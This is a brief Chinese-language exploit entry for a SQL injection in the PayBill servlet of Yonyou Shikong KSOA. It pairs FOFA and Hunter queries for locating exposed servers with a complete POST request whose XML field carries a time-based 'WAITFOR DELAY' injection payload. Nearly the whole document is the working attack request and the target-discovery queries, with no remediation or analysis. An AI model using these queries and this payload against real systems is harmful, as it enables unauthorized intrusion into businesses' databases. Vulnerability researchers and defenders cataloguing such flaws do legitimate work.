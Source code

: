 # 用友时空KSOA PayBill SQL注入漏洞

## 网络测绘

fofa: app="用友-时空KSOA"

hunter: app.name="用友时空 KSOA"

## POC / EXP

```
POST /servlet/PayBill?caculate&_rnd= HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip, deflate
Connection: close

<?xml version="1.0" encoding="UTF-8" ?><root><name>1</name><name>1'WAITFOR DELAY '00:00:03';-</name><name>1</name><name>102360</name></root>
```